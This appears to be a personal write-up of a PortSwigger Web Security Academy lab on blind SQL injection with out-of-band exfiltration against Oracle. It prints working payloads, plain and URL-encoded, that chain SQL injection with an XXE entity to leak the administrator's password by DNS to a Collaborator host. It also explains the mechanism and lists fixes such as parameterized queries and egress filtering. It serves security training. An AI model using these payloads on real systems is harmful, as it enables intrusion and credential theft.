




## LAB-18 BLIND SQL INJECTION WITH OUT-OF-BAND DATA EXFILTRATION

## LAB : [PortSwigger Lab 18 Link](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

## What?

Blind SQL Injection with **Out-of-Band (OOB) data exfiltration** on an **Oracle** database. The query executes asynchronously with no direct output or errors, but by combining SQL injection with an **XML External Entity (XXE)** payload, the database's outbound network capabilities can be forced to exfiltrate sensitive data (such as the administrator's password) through a DNS lookup.

## Where?

* **Page:** Front page of the shop
* **Method:** GET (cookie-based)
* **Parameter:** `TrackingId` cookie
* **No auth required**

## How did I find it?

The application processes a tracking cookie for analytics inside a database query.

Standard blind techniques (error-based, time delays like `dbms_pipe`, and boolean conditions) failed because the query executes asynchronously and the application response remains identical regardless of the query outcome.

Recognizing that the app doesn't wait for or reflect results, I targeted out-of-band communication channels.

## How did I verify it?

Used **Burp Collaborator** to generate a unique subdomain:

`8qz9eyul554m5amlodn6720lpcv4ju7j.oastify.com`

**Payload (Oracle SQLi + XXE data exfiltration):**

````
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://' || (SELECT username FROM users WHERE rownum=1) || '.8qz9eyul554m5amlodn6720lpcv4ju7j.oastify.com/"> %remote;]>'),'/l') FROM dual) –
````





```
'+||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>\<!DOCTYPE+root+[+\<!ENTITY+%25+remote+SYSTEM+"http%3a//'+||+(SELECT+password+FROM+users+WHERE+username%3d'administrator')+||+'.8qz9eyul554m5amlodn6720lpcv4ju7j.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)+--
```





## What happens?

* The injected string breaks out of the original cookie parameter and appends an Oracle `xmltype()` function.
* The XML structure contains an external entity (`% remote`) pointing to a URL constructed by concatenating the query result (`SELECT password FROM users WHERE username='administrator'`) with the Collaborator domain.
* The database parser resolves the external entity, forcing an outbound DNS lookup to fetch the URL.
* Burp Collaborator captures the DNS interaction, with the administrator's password visible right inside the incoming subdomain query string.

## Why does it work?

Oracle's `xmltype()` function parses XML payloads, and embedded external entities (`SYSTEM`) force the database engine to initiate network requests.

Even though the application ignores the SQL query output and runs asynchronously, the database itself executes the underlying functions and resolves external DNS names as part of parsing the XML structure.

## What can an attacker do?

* Exfiltrate sensitive database contents (usernames, passwords, PII) character-by-character or string-by-string by embedding query results into DNS subdomains.
* Extract data from fully blind environments where HTTP responses, errors, and time delays are completely suppressed.
* Leverage database features to pierce network perimeters that block standard web traffic (HTTP/HTTPS) but permit internal DNS queries.

## What are the conditions/limitations?

* Requires an Oracle database version where `xmltype()` parses external entities.
* The database server must have outbound DNS resolution enabled.
* Requires an external listener (like Burp Collaborator or a custom DNS server) to catch and log the incoming requests.
* Complex nested payloads require meticulous URL encoding to prevent transmission corruption.

## How should it be fixed?

* **Primary:** Use parameterized queries so the `TrackingId` cookie value is strictly treated as data rather than executable SQL code.

**Defense-in-depth:**

* Patch Oracle database installations to disable vulnerable XML parsing behaviors.
* Implement strict egress filtering to block outbound DNS and HTTP traffic directly from database servers.
* Restrict or disable network-fetching packages (such as `UTL_INADDR`) for non-administrative database users.
* Monitor network traffic for anomalous or data-encoded DNS queries originating from database hosts.

## What did I learn?

I learned how powerful it is to chain vulnerabilities — specifically how a SQL injection can deliver an XXE payload to weaponize a database's native parser against itself.

I also realized that DNS can act as a reliable covert channel when all traditional web response channels are dead ends.

Handling heavy URL encoding for deeply nested multi-context payloads was a great exercise in syntax precision.

## What was the key obstacle?

**Constructing the payload syntax correctly.**

Because the query required concatenating a subquery (`SELECT password FROM users WHERE username='administrator'`) directly inside an XML entity declaration within a SQL string literal, missing or incorrect URL encoding (`+`, `%3d`, `%25`, etc.) repeatedly broke the query.

Getting the string concatenation and escaping right was essential to making the database evaluate the subquery before building the DNS request string.
